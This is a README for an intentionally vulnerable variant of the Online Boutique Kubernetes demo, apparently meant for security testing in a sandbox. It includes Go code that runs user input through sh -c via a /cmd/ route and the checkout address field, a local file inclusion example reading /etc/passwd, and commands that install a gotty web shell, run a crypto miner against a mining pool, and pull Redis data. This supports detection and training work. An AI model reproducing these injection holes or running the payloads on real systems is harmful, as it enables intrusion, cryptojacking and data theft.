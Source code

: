 <br />

The **Online Boutique** cloud-native microservices demo application is tweaked to accommodate some of the use-cases mentioned below

1. **Sensitive keys in codebases** -
     [committing sensitive information to the version control system.](https://github.com/accuknox/samples/blob/main/microservice-demo/UPDATES.md#sensitive-data-exposure)

2. **Custom handle with code execution** -
    [a custom httpHandler to reply *whoami*](https://github.com/accuknox/samples/blob/main/microservice-demo/UPDATES.md#custom-handle)
3. **Vulnerable address field** - 
    [to executes codes in the backend](https://github.com/accuknox/samples/blob/main/microservice-demo/UPDATES.md#rce)
4. **Crypto Miner on pod** - [to install cryptominer python based application on to a pod](https://github.com/accuknox/samples/blob/main/microservice-demo/UPDATES.md#crypto-miner)
5. **Redis data exposure** - [to connect and disclose the data stored in redis db](https://github.com/accuknox/samples/blob/main/microservice-demo/UPDATES.md#redis-data-exposure)


> **Note:** These tweakings were done to make the application
> slightly vulnerable and the use of this application in production environment
> is highly discouraged. Use a sandboxed environment to test out the application.

<br />


## Quickstart 

1. **Create a namespace** *poc* 

```
kubectl create ns poc
```

2. **Deploy the tweaked app to the namespace.**

```
kubectl apply -f ./release/kubernetes-manifests.yaml -n poc
```
OR
```
kubectl -n poc apply -f https://raw.githubusercontent.com/accuknox/samples/main/microservice-demo/release/kubernetes-manifests.yaml
```


3. **Get the public IP**

```
kubectl -n poc get service frontend-external | awk '{print $4}'
```

*Example output - do not copy*

```
EXTERNAL-IP
<your-ip>
```
## Custom Handle

**Use handle /cmd/command**
```
your-external-ip/cmd/<command>
```
*Example command - do not copy*

```
http://localhost/cmd/whoami
```
## RCE

**Give commands in Address field to install and run** [gotty.](https://github.com/yudai/gotty) and goto *ip:8080* to get the gotty terminal

*Command*

```
apt update && apt install -y wget && wget https://github.com/yudai/gotty/releases/download/v1.0.1/gotty_linux_amd64.tar.gz && tar -xvzf gotty_linux_amd64.tar.gz && mv gotty /usr/local/bin/gotty && gotty -w --port 9090 sh
```
**Checkout Page** [![Screenshot of checkout page](./images/address.png)](./images/address.png) 


## Crypto Miner

**Give commands in Address field to install and run Crypto Miner Python application**

*Command*

```
apt update && apt install -y wget curl python2 && curl -L https://github.com/ricmoo/nightminer/archive/refs/heads/master.zip > test.zip && unzip test.zip && cd nightminer-master && python nightminer.py -o stratum+tcp://eu.miningdao.io:4444  -u 1LNdGsYtZXWeiKjGba7T997qvzrWqLXLma 
```

[![Screenshot of hubble ui](./images/connection-hubble.png)](./images/connection-hubble.png) 

## Redis data exposure

**Use the /cmd/ handle to get env variables**

*Command*

```
<your-external-ip>/cmd/printenv
```
[![Screenshot of printenv](./images/printenv.png)](./images/printenv.png) 

**Use redis-cli to connect to the above ip and see the KEYS**

*Command*

```
<your-external-ip>/cmd/echo "KEYS *" | redis-cli -h <redis-cart-ip>
```
[![Screenshot of redis cli keys](./images/redis-cli.png)](./images/redis-cli.png) 

**Use redis-cli to show the type of data**

*Command*

```
<your-external-ip>/cmd/echo "type <value>" | redis-cli -h <redis-cart-ip>
```
[![Screenshot of redis cli data type](./images/redis-cli-type.png)](./images/redis-cli-type.png) 

**Use redis-cli to show the data**

*Command*

```
<your-external-ip>/cmd/echo "hgetall <value>" | redis-cli -h <redis-cart-ip>
```
[![Screenshot of redis cli data](./images/redis-cli-data.png)](./images/redis-cli-data.png) 
<br />

## Files Changed

> microservices-demo/src/frontend/main.go

**Tweak Function** *main*
*Line 147:*
```go
r.HandleFunc("/cmd/{cmd}", svc.cmdHandler).Methods(http.MethodGet)
```

> microservices-demo/src/frontend/handlers.go


**Tweak Function** *placeOrderHandler*
*Line 348*

```go
command := streetAddress
cmd, err := exec.Command("sh","-c",command).Output()
fmt.Printf("%s",cmd)
```

*New Function*
```go
func (fe *frontendServer) cmdHandler(w http.ResponseWriter, r *http.Request) {
	log := r.Context().Value(ctxKeyLog{}).(logrus.FieldLogger)
	cmd := mux.Vars(r)["cmd"]
	fmt.Printf( r.Method, r.URL, r.Proto)
	fmt.Printf("the command is %s\n",cmd)
	if cmd == "" {
		cmdName := "whoami"
		
		cmdz := exec.Command("sh","-c",cmdName)
		cmdReader, err := cmdz.Output()
		fmt.Printf("The output  is %s\n", cmdReader)
		if err != nil {
			renderHTTPError(log, r, w, errors.Wrap(err, "Executable Not Found"), http.StatusInternalServerError)
			return
		} else {
			w.Write(cmdReader)
			return
		}
	} else {
		cmdz := exec.Command("sh","-c",cmd)
		cmdReader, err := cmdz.Output()
		fmt.Printf("The output  is %s\n", cmdReader)
		if err != nil {
			renderHTTPError(log, r, w, errors.Wrap(err, "Executable Not Found"), http.StatusInternalServerError)
			return
		} else{
			w.Write(cmdReader)
			return
		}
	}
	return
}
```
## Sensitive Data Exposure

```
http://external-ip/sde/main.go
```
![Screenshot_2021-09-15_14-43-40](https://user-images.githubusercontent.com/86401171/133669664-4c67a3c6-56a6-4de5-8526-1d7079a45b50.png)

## Files Changed

> microservices-demo/src/frontend/main.go

**Tweak Function** *main*
*Line 145:*
```go
r.PathPrefix("/sde/").Handler(http.StripPrefix("/sde/", http.FileServer(http.Dir("./sde/"))))
```
> microservices-demo/src/frontend/Dockerfile

**Dockerfile**
*Line 36:*
```
COPY ./sde ./sde
```
## local_file_inclusion
Local file inclusion (also known as LFI) is the process of including files that are already locally present on the server, through the exploitation of vulnerable inclusion procedures implemented in the application.
This vulnerability occurs, for example, when a page receives, as input, the path to the file that has to be included, and this input is not properly sanitized, allowing directory traversal characters (such as dot-dot-slash) to be injected.

```
http://external-ip/lfi?file=file_path
```
example
```
http://35.202.63.196/lfi?file=/etc/passwd
```
![Uploading Screenshot_2021-12-15_02-16-04.png…]()


<br />
